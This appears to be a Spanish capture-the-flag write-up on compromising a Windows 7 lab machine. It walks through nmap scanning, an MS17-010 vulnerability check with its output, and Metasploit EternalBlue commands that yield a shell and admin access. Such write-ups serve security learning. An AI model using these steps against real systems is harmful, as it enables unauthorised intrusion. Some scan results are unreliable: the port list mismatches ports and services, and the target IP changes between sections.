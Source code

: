 # Fase 1- Tanteo
![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/407c2356-3bf2-4beb-9b64-4dd77d2e7006)
En esta fase inicial, realizamos un escaneo de puertos para identificar los servicios disponibles en la máquina objetivo. Utilizamos la herramienta Nmap con una serie de opciones para obtener información detallada y realizar un análisis exhaustivo de los puertos abiertos.
### Comando Nmap utilizado:

`sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`

### Detalles del Comando:

- `sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`
- `-p-`: Escaneo de todos los puertos.
- `--open`: Muestra solo puertos abiertos.
- `-sS`: Escaneo SYN para determinar el estado de los puertos.
- `-sC`: Activa detección de versiones y vulnerabilidades.
- `-sV`: Escaneo de versiones de servicios.
- `--min-rate 5000`: Velocidad mínima de escaneo.
- `-vvv`: Verbosidad muy alta para información detallada.
- `-n`: Desactiva la resolución de DNS.
- `-Pn`: Ignora la detección de hosts en línea.
- `192.168.52.139`: IP de la máquina objetivo.
- `-oN Escaneo`: Guarda resultados en archivo "Escaneo".

### Resultados:

#### Puertos Abiertos:

2.  **135/tcp(msrpc):** OpenSSH 9.2p1 
3. **139/tcp(netbios-ssn):** Apache httpd 2.4.59
4. **445/tcp(microsoft-ds):** syn-ack ttl 128 Windows 7 Home Basic 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)

# Fase 2- Exploración

#### Windows 7
Al detectar que estamos delante de un Windows 7, procedemos a utilizar un script de nmap para verificar si es vulnerable a eternalblue, comando utilizado:
```python
❯ sudo nmap --script smb-vuln-ms17-010 -p 445 192.168.1.10
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-09 19:22 -03
Nmap scan report for 192.168.1.10 (192.168.1.10)
Host is up (0.00046s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 00:0C:29:CD:6D:53 (VMware)

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

Nmap done: 1 IP address (1 host up) scanned in 0.26 seconds
```
Este resultado nos indica que si, es vulnerable.

# Fase 3- Explotación

#### Eternalblue
Para explotar este vulnerabilidad se haría de la siguiente forma:
```python
> msfconsole
Con este comando usamos metasploit.

> search ms17_010
Este comando sirve para buscar la vulnerabilidad.

> use 0
Le indicamos el numero del exploit a usar.

> show options
Le indicamos las opciones con las que funcióna este exploit.

> set RHOSTS 192.168.1.10
Con este comando Le indicamos la ip que queremos atacar.

> exploit
Con este comando lanzamos el exploit.

```

![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/21795e08-0293-4e7b-a599-884f6c688da7)
Y así estaríamos dentro, con el comando shell, le indicamos que queremos usar una shell en lugar de meterpreter.

# Fase 4- Privilegios
![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/f476ec22-4f1d-4051-bc5e-ddf4237a6560)

Podemos acceder al usuario Admin, Maquina Finalizada.
